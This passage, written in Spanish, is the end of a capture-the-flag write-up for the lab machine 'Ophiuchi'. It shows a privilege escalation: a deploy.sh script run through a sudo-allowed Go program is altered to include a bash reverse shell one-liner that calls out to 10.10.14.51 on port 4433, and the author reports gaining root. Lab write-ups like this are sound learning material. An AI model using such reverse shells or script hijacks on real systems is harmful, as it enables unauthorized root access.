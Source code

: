 Listo, antes de subirlo a la máquina. Creemos una carpeta temporal para poner nuestros objetos de trabajo, movamos ahí el archivo `deploy.sh` y modifiquémoslo para que nos entregue una Shell:

```bash
admin@ophiuchi:/dev/shm/test$ cat deploy.sh 
#!/bin/bash

/bin/bash

# ToDo
# Create script to automatic deploy our new web at tomcat port 8080
```

Ahora sí, subamos el binario y ejecutemos la instrucción `sudo`:

```bash
admin@ophiuchi:/dev/shm/test$ chmod + main.wasm 
admin@ophiuchi:/dev/shm/test$ ls
deploy.sh  main.wasm
admin@ophiuchi:/dev/shm/test$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Ready to deploy

admin@ophiuchi:/dev/shm/test$ id
uid=1000(admin) gid=1000(admin) groups=1000(admin)
```

Pero no nos ha cambiado... Aunque al menos sabemos que ya esta entrando a la ejecución (: Hagamos una Reverse Shell.

Nos ponemos en escucha por el puerto `4433` y modificamos el archivo `deploy.sh`:

```bash
admin@ophiuchi:/dev/shm/test$ cat deploy.sh 
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.10.14.51/4433 0>&1"

# ToDo
# Create script to automatic deploy our new web at tomcat port 8080
```

Y en el listener, obtenemos:

![315bash_revSH_root](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/ophiuchi/315bash_revSH_root.png)

Perfectoooooo, tenemos una Shell como el usuario `root`.

Solo nos quedaría ver las flags:

![315flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/ophiuchi/315flags.png)

...

Bueno, la deserialización se esta volviendo mi ataque favorito. Esta en todos lados :P Mu gusto mucho el inicio, la escalada estuvo interesante, pero no sé, no me termino de gustar. Pero igual, todo es aprendizaje (:

Muchas gracias por pasarse y leer este montón de cosas, que tengas una feliz noche (: 

Y como siempre. A. Seguir. Rompiendo. Todo.